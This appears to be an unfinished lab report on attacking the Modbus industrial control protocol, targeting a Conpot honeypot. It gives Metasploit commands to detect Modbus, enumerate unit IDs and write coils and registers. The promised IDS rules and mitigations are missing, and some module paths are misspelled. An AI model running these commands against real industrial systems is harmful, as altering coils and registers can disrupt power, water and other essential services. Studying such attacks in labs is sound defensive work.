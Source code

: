 
# Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting the Galil RIO-47100 "Pocket PLC."
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack


***

# Vulnerability Overview

#### Improper Input Validation
 This module detects the Modbus service, tested on a SAIA PCD1.M2 system. Modbus is a clear text protocol used in common SCADA systems, developed originally as a serial-line (RS232) async protocol, and later transformed to IP, which is called ModbusTCP.
#### Vulnerability Details
This module allows reading and writing data to a PLC using the Modbus protocol. This module is based on the 'modiconstop.rb' Basecamp module from DigitalBond, as well as the mbtget perl script.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs

--
## Impact

 This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.

Impact to individual organizations depends on many factors that are unique to each organization.
***
# Exploitation of Vulnerability

 Metasploit has several modules specifically designed for the discovery and use of this most widely used protocol.
In order to see these modules, we will use the "search modbus" command after entering the console with the "msfconsole" command.

```sh
msfconsole
search modbus
```
The first module we will use as an exploit is the modbusdetect module. As it name implies, it is capable of detecting whether a site is running the modbus protocol. 
```sh
use auxilary/scanner/scada/modbusdetect 
```
We see the values we need to set with the "show options" command.
```sh
show options
exploit
```
This module only needs to set the destination's IP address to RHOST. The default port for Modbus is 502, so RPORT is set to 502 by default.

The destination ip is entered with the Set RHOSTS <IP-ADDRESS> command and the RHOSTS section is checked with the Show options command.
```sh
set RHOSTS <IP-address>
```
When we run this module, it goes to port 502 of the target system and sends a probe to determine if it is using modbus.
It confirms that our target is running modbus and we can now move on to our modbus-based discovery and exploit.

 We have confirmed that the target is actually running the modbus protocol, the next step is to enumerate the Unit ID's of the connected devices.

Modbus allows for up to 254 connected devices. To manipulate or communicate with any modbus device, we must have its UNIT ID, 
```sh
use auxilary/scanner/scanner/modbus_findunitid
set RHOST <IP Address>
exploit
```
This module finds the Each Unit ID of connected devices. These UNIT IDs are critical for reading and writing their data, as we will see later.

Our next modbus module is modbusclient. It enables us to read and write the data from both the coils and registers on these SCADA systems. 

```sh
 use auxiliary/scanner/scada/modbusclient
 show options
 ``` 
 This module requires several variables to be set. Most important is the ACTION. This variable can be set as;
- READ_REGISTERS
- WRITE_REGISTERS
- READ_COILS
- WRITE_COILS

 In SCADA/ICS terminology, coils are devices on the network that are either ON or OFF. Their settings are either 1 or 0.  By changing the values of a coil, you are switching it on or off.
 
 ```sh
 set ACTION WRITE_COIL
 set DATA 1
 set DATA_ADRESS <?>
 exploit
 ``` 
We can read the coils to check if the value has actually changed.
 ``` sh
set ACTION READ_COILS
 exploit
 ``` 
 
 To write the values in the registers
  ``` sh
set ACTION WRITE_REGISTERS
set DATA 27,27,27,27,27
  exploit
 ``` 
 To check to see whether the values have actually changed, we can change the ACTION to READ_REGISTERS.
   ``` sh
set ACTION READ_REGISTERS
exploit
 ``` 


***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.
            FOTO
Double-clicking on the line will open the package content. 

***


## Conclusion
Many industrial systems can be accessed and controlled using Metasploit's simple modbus modules. In the wrong hands, this manipulation of coils and registers might lead to devastating results.
